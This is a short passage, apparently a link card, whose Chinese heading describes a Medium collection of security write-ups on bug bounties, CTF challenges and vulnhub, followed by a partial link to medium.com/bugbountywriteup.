### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)